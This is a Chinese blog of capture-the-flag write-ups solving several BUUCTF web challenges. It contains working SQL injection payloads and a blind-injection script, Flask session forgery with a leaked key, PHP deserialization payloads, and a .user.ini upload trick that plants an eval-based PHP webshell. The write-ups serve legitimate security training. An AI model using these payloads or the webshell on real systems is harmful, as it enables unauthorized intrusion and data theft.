# BUUCTF web记录 3


## 0x00 [极客大挑战 2019]BabySQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)

打开题目，还是熟悉的用户名密码注入界面


首先判断闭合类型，用户名随便写，密码栏填个`b'`，发现报错，说明查询语句是单引号闭合。


然后尝试一下密码`b' or 1=1 #`，发现报错信息中只有`'1=1 #''`。一开始我也不知道是怎么回事，查阅资料之后才知道，原来有的waf会对`or`、`select`等SQL语句关键字做过滤，比如直接替换为空，所以这题要使用[双写绕过](https://blog.csdn.net/m0_51504576/article/details/115832188)。



试着使用union查询，输入`b' ununionion seselectlect 1,2,3 #`，显示成功登录信息，说明被查询的表的列数为3。


接下来就是套路化的操作，精髓是使用`information_schema`等记录数据库自身信息的数据库，以及`group_concat()`函数。因为看到了2和3的回显，所以把2和3替换为其它表达式可以进行注入。

懒得放截图，直接把回显结果贴一下。

首先查看当前数据库

````sql
b' ununionion seselectlect 1,2,database() #
````

```
Hello 2！
Your password is 'geek'
```

查看所有数据库

````sql
b' ununionion seselectlect 1,2,group_concat(schema_name)frfromom (infoorrmation_schema.schemata) #
````

```
Hello 2！
Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'
```

看到一个`ctf`库，再去爆这个数据库的表

```sql
b' ununionion seselectlect 1,2,group_concat(table_name)frfromom(infoorrmation_schema.tables) whwhereere table_schema="ctf" #
```

```
Hello 2！
Your password is 'Flag'
```

其中有个`Flag`表，然后再去爆字段

````sql
b' ununionion seselectlect 1,2,group_concat(column_name) frfromom (infoorrmation_schema.columns) whwhereere table_name="Flag"
````

```
Hello 2！
Your password is 'flag'
```

其中有`flag`字段，再去爆数据

```sql
b' ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag)
```

拿到flag

```
Hello 2！
Your password is 'flag{b11bfeba-d864-4a0a-97f6-77e3ef266da9}'
```

个人感觉，这题的要点在于数据库本身信息数据库的内容，以及`group_concat`的使用，双写绕过其实是个很简单的东西。

### 参考链接：

- [information_schema数据库](https://www.cnblogs.com/kankanhua/p/6484972.html)

-  [group_concat()函数](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)

## 0x01 [极客大挑战 2019]HardSQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

可以试出是单引号闭合，但是空格被过滤了，所以使用报错注入


这题的主要知识点就是利用`updatexml()`和`extractvalue()`函数进行报错注入。使用`concat()`函数，再加上`~`或者`@`等能够引起路径参数报错的字符，将形如`concat(0x7e, 语句, 0x7e)`这样的结果作为参数，就能够得到`XPATH syntax error: '回显结果'`这样的报错信息，实现注入。

### 参考链接：

- [https://blog.csdn.net/Xxy605/article/details/116999699](https://blog.csdn.net/Xxy605/article/details/116999699)
- [SQL报错注入攻击中的updatexml()函数](https://blog.csdn.net/weixin_45738112/article/details/105131866)

## 0x02 [HCTF 2018]admin

[题目链接](https://buuoj.cn/challenges#[HCTF%202018]admin)

这是一道很有趣的题，网站提供了注册、登录、修改密码等功能。

看源码大致可以感觉到，需要你以`admin`身份登录，才能够获取flag，但是`admin`是已经注册过的用户，所以在不知道`admin`密码的情况下无法登录。


查阅一些wp之后，可以得到3种解法。

### 解法1：弱密码

这是很扯的一个解法，可以理解为，机缘巧合，直接试出来了`admin`的密码是`123`🤣，登录拿到flag

### 解法2：unicode欺骗

预期解之一。查看网页源码可以看到该web应用是一个flask应用，源码地址为[https://github.com/woadsl1234/hctf_flask](https://github.com/woadsl1234/hctf_flask)


查看源码中的路由逻辑`routes.py`，其中的`login`与`change`路由处理逻辑使用了过时版本twisted框架中的`nodeprep.prepare()`函数，该函数会将`ᴬ`转换为`A`，然后转换为小写的`a`（这个知识点我也不知道获取的渠道是什么）。

```python
@app.route('/login', methods = ['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('index'))

    form = LoginForm()
    if request.method == 'POST':
        name = strlower(form.username.data) //<------就在这里使用了一个自定义的strlower()函数
        session['name'] = name
        user = User.query.filter_by(username=name).first()
        if user is None or not user.check_password(form.password.data):
            flash('Invalid username or password')
            return redirect(url_for('login'))
        login_user(user, remember=form.remember_me.data)
        return redirect(url_for('index'))
    return render_template('login.html', title = 'login', form = form)

...

def strlower(username):
    username = nodeprep.prepare(username)
    return username
```


所以Unicode欺骗的做法就是先注册一个`ᴬDMIN`用户，然后修改密码。在注册与修改密码的过程中username会发生如下转变`ᴬDMIN`->`Admin`->`admin`，所以相当于能够控制`admin`用户的密码，然后就能够以`admin`用户的身份登录，获取flag。


### 解法3： 修改flask session

那个web应用是个flask应用，flask是将`session`保存在本地的，并且没有做加密，而是仅仅进行了签名以防篡改，而搜索源代码可以看到其签名使用的密钥为`ckj123`。

```python
import os

class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```

所以，我们可以用burp拦截普通用户登录后查看Index页面的请求，再使用[flask session编解码工具](https://github.com/noraj/flask-session-cookie-manager)解码拦截到的`session`，然后修改其中的用户ID，再重发请求，即可获得flag。


将`name`改为`admin`，再进行签名。





### 参考链接：

- [https://blog.csdn.net/mochu7777777/article/details/109302175](https://blog.csdn.net/mochu7777777/article/details/109302175)

- [Unicode Character Table](https://unicode-table.com/en/)
- [客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)

## 0x03 [BJDCTF2020]Easy MD5

[题目链接](https://buuoj.cn/challenges#[BJDCTF2020]Easy%20MD5)

一道考察php中的`md5()`用法的题。

网站长这样


### level1

首先随便输入，抓包得到hint提示



可以看到提交请求对应的语句为

```php
select * from 'admin' where password=md5($pass,true)
```

这里要注入的话就得使`md5($pass, true)`值为`' or 'xxx`，也就是要找个字符串使其md5结果满足这一要求。遍历可以爆出结果，但其实有经验的话就知道`"ffifdyop"`满足上述需求，是[md5注入时常用的字符串](https://www.cnblogs.com/tqing/p/11852990.html)，其md5结果为`' or '6xxxxx`。

```python
import hashlib
s = "ffifdyop"
m = hashlib.md5(s.encode()).hexdigest()
print(m)

plain = bytes.fromhex(m)
print(plain)

=================

276f722736c95d99e921722cf9ed621c
b"'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c"
```

放到上述语句就相当于

```php 
select * from 'admin' where password= '' or '6xxxxx'
```

### level2

注入通过之后，到了第二关


又可以看到提示，要求`$a != $b` 但是`md5($a) == md5($b)`。



要满足前面的`!=`和后面的弱相等，存在两种情况：

- `md5($a)`与`md5($b)`结果以`0e`开头。php在处理这样的哈希字符串时会将其当作科学计数法，并且底数为0，所以结果都为0
- `$a`与`$b`为数组。`md5()`无法处理数组输入，所以会返回`null`，这种情况也满足上述条件

具体内容可以参照[这篇博客](https://www.loongten.com/2020/02/22/ctf-php-md5/)

所以，直接选两个不同的但是md5结果都以`0e`开头的字符串作为a b的值即可。



### level3

第三关要求`$_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])`

这里传入数组就可。除此之外，还可以找两个不同的但是md5结果相同的字符串，这理论上来说是存在的，但是我目前还没有查到现有的结果。

### 参考链接：

- [CTF中常见php-MD5()函数漏洞](https://www.loongten.com/2020/02/22/ctf-php-md5/)

## 0x04 [CISCN2019 华北赛区 Day2 Web1]Hack World

[题目链接](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1]Hack%20World)



试一下就知道，`or` `and` `union` 等关键字都被过滤了，所以不能**union注入**或者**报错**注入。

以及输入`1`和`2`是可以看到正常的回显结果的

```txt
1：Hello, glzjin wants a girlfriend.
2：Do you want to be my girlfriend?
```

google之后可以知道，还有一种注入叫做[异或注入](https://cbatl.gitee.io/2020/06/20/xor/)，这也是这题的考察点。

所以思路就是使用异或注入，逐位爆破flag的内容。

直接上脚本，注意每次请求之间加个`sleep`，不然会出错，因为请求之间间隔太短，导致收到的结果可能会顺序错乱。

```python
import requests as rq
import time

host = 'http://ac7a6112-32f7-48c9-9088-66a935888686.node4.buuoj.cn:81/index.php'

flag = ""
payload = {
    "id": ""
}
for i in range(1, 50):
    # 二分查找很细节
    a = 32
    b = 128
    m = (a + b) >> 1
    while a < b:
        payload["id"] = "0^(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i, m)
        # print(payload["id"])
        se = rq.post(url=host, data=payload)
        # 请求发太快了容易出问题，所以这里的sleep是必须的
        time.sleep(0.1)
        # 如果猜的数字更小
        if "Hello" in se.text:
            a = m + 1
        else:
            b = m
        m = (a + b) >> 1
    # print("m: ", m, "chr(m): ", chr(m))
    if chr(m) == " ":
        break
    flag += chr(m)
    print(flag)

print("flag: ", flag)

```


## 0x05 [网鼎杯 2020 青龙组]AreUSerialz

[题目链接](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202020%20%E9%9D%92%E9%BE%99%E7%BB%84]AreUSerialz)

这是一道反序列化的题，可以看到源码

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

定义了一个`FileHandler`类，并且会将接受到的`$_GET['str']`请求参数进行反序列化。

感觉应该是要反序列化得到`FileHandler`对象，然后通过`__construct()`或`__destruct()`魔术方法来读取`flag.php`的内容。

类的`$op`变量为1对应写操作，2对应读操作。

`__construct()`里面写死了`$op="1"`，所以无法执行`process()`中的读取操作。

但是`__destruct()`里又会将`$op`从2变为1，所以需要想办法绕过这一逻辑。绕过的利用点就在于，这里使用的判断逻辑是强相等`===`，所以将`$op`定义为数字类型2，就可以绕过该判断，同时满足`process()`函数中的`$op=="2"`判断，因为这里是弱相等，存在自动类型转换。

需要注意的是：

- ~~方便起见，`flag.php`利用php的[伪协议](https://www.php.net/manual/en/wrappers.php)`php://filter/read=convert.base64-encode=flag.php`来读取~~

- php对于`private`/`protected`类型的成员变量进行序列化时会加上包含00字节的特殊内容，但是这无法通过`$is_valid()`判断。可以将序列化结果中的`s`替换为`S`，使其后面的内容支持16进制，然后空字节写成`\00`即可

  >**Note**:
  >
  >Object's private members have the class name prepended to the member name; protected members have a '*' prepended to the member name. These prepended values have null bytes on either side.
  >
  >https://www.php.net/manual/en/function.serialize

### payload1

所以，最常规的payload可以通过以下方式生成：

```php
<?php
	class FileHandler {
		protected $op = 2;
		protected $filename = "flag.php";
		protected $content = "";
	}
	$a = new FileHandler();
	$b = serialize($a);
	$b = str_replace("s", "S", $b);  
    $b = str_replace("%00", "\\00", $b);  
	echo($b);
?>
```

[执行](https://sandbox.onlinephpfunctions.com/)结果

```txt
O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A8%3A%22flag.php%22%3BS%3A10%3A%22\00%2A\00content%22%3BS%3A0%3A%22%22%3B%7D
```

请求`?str=O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A8%3A%22flag.php%22%3BS%3A10%3A%22\00%2A\00content%22%3BS%3A0%3A%22%22%3B%7D`即可获取flag。



### payload2

还可以利用php的[伪协议](https://www.php.net/manual/en/wrappers.php)来获取`flag.php`文件的base64编码，然后再解码，也是一样的。

payload为

```txt
O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3BS%3A10%3A%22\00%2A\00content%22%3BS%3A0%3A%22%22%3B%7D
```


### payload3

其实，网站信息中显示其使用的php版本为7.4.3，而7.1+版本的php在序列化与反序列化时对于`private`/`protected`是不敏感的，所以可以直接把上述的成员变量都当作`public`。



于是可以这样生成payload

```
<?php
	class FileHandler {
		public $op = 2;
		public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
		public $content = "";
	}
	$a = new FileHandler();
	echo(serialize($a));
?>
```

```txt
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";s:0:"";}
```


同样可以拿到flag。

### 总结

这题的意义在于**php的序列化与反序列化**、**序列化结果字段的含义**、**php7.1版本对于序列化反序列化操作的变化**

### 参考链接

- [PHP 序列化（serialize）格式详解](https://www.neatstudio.com/show-161-1.shtml)

## 0x06 [SUCTF 2019]CheckIn

[题目链接](https://buuoj.cn/challenges#[SUCTF%202019]CheckIn)

文件上传题

网站把php文件的[常用后缀名](https://www.guru99.com/what-is-php-first-php-program.html#6)都过滤了，并且把文件中的`<?`内容也给过滤了。考虑用`<script language='php'>@eval($_POST["password"]);</script>`的写法来绕过。

要知道，想利用webshell的话，必须要能够让服务端将你上传的文件当作php文件去解析，而这题过滤了php文件的后缀名，所以我们无法上传一个php文件，而只能上传一个含有php🐎的图片文件。

所以第二个问题就是怎么让服务端将我们上传的图片文件作为php文件去解析。在这种情况下，可以使用apache的`.htaccess`文件设置让服务端将某个文件当作php文件解析。但是这题环境是nginx，所以没有`.htaccess`。再查阅资料可知，`.user.ini`也是一个可以控制php设置的一个特殊文件。所以这题的思路是先上传`.user.ini`文件，设置在php文件中加载接下来要上传的图片文件，然后上传含有php🐎的图片文件。

两个文件内容

`.user.ini`

```
GIF89a
auto_prepend_file=zyleo.jpg
```

`zyleo.jpg`

```php
GIF89a
<script language='php'>@eval($_POST["zyleo"]);</script>
```

上传之后，看到上传目录为`uploads/fb....b2`，其中也有`index.php`，这就是连接webshell的地址



然后蚁剑连接就行了

`url地址`：`http://8d42f662-e446-4b96-afd8-ab3d2694bfa1.node4.buuoj.cn:81/uploads/fb10500f3a8407c9ec6ac288f25439b2/index.php`

`连接密码`：`zyleo`


### 参考连接：

- [htaccess文件上传拿shell](https://blog.csdn.net/qq_36512966/article/details/72716079?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control)
- [user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

## 0x07 [GXYCTF2019]BabySQli

[题目链接](https://buuoj.cn/challenges#[GXYCTF2019]BabySQli)

这题两个输入框，试一下就可以发现，注入点是`UserName`。


`UserName`试了一下`a' or 1=1#`，页面返回`Do not hack me`，说明被过滤了。

再试`a' union select 1,2#`，返回`Error: The used SELECT statements have a different number of columns`。说明sql语句的查询结果不止2列，可以尝试出来是3列。

同时，用户名输`admin`，返回的是`wrong pass`，用户名输其他的返回的是`wrong user`，说明这题要满足的条件是用户名`UserName`为`admin`。同时`a' union select 1,'admin',3#`报的是`wrong pass`，说明username在查询结果的第二列。

查看网页源码，发现有`search.php`的提示信息，查看`search.php`，可以看到

```html
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>Do you know who am I?</title>


wrong user!
```

上面的是base32编码，解码得到`c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==`，再经过base64解码得到该网站的sql查询语句`select * from user where username = '$name'`。

查询语句里没有密码字段，所以可以推测，密码字段应该是在后端被拿来对比了。同时再猜测（😂好吧其实是查阅博客，但是这些博客也没哪个讲清除了）是将我们的输入的值的md5与密码的md5结果相对比。

猜到这里就可以做了。使用`union`联合查询构造查询结果，就可以自己控制md5内容，然后再输入对应的密码内容即可。

payload：

`a' union select 1, 'admin', '900150983cd24fb0d6963f7d28e17f72'#`

`abc`

> flag{35de0117-ce39-40bd-8de4-40535e1a5274}


